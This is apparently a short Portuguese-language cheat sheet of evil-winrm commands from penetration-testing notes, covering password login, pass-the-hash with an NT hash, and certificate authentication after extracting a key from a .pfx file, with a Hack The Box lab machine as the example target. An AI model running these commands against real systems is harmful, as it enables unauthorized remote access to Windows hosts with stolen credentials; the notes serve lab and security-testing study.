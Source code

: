 Winrm
========================


## Basico

Comandos mais básicos da ferramenta:

    evil-winrm -i 10.10.10.10 -u username -p password
    

## Pass the hash

    evil-winrm -i 10.10.10.10 -u username -H :<nt_hash>
 
## Certificate authentication

 Uma vez obtido um certificado (.pfx), é necessário gerar duas informações, uma chave privada e uma pública com os comandos abaixo:

    openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
    openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes

Dessa forma a gente conseguia acesso na máquina via evil-winrm

    evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S -r timelapse.htb

ref: <https://wadcoms.github.io/wadcoms/Evil-Winrm-PKINIT/>


